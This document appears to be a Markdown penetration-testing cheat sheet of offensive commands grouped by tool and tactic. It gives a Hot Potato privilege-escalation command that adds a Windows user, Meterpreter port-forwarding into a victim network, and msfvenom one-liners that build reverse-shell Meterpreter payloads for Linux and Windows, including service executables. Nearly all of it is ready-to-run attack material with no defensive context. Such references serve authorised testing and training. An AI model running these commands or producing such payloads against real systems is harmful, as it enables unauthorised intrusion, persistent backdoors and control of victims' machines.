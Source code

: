 
# potato.exe
- serivce: windows
- tactics: privilege_escalation

## hot potato usage
- `potato.exe -ip <local ip> -cmd "c:\\windows\\system32\\cmd.exe /K net users username password /add" -disable_exhaust true`

---

# Metasploit
- serivce: all
- tactics: command_and_control

## Port forward using meterpreter
- `portfwd add -l <attacker port> -p <victim port> -r <victim ip>`
- `portfwd add -l 3306 -p 3306 -r 192.168.1.101`

---

# msfvenom
- serivce: all
- tactics: weaponization

## Linux ELF binary
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

## Windows EXE binary 
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

### 32 Bit
- `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell32.exe`

### 64Bit
- `msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell64.exe`
    
## Windows Service
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> EXITFUNC=thread -f exe-service > shell-service.exe`
    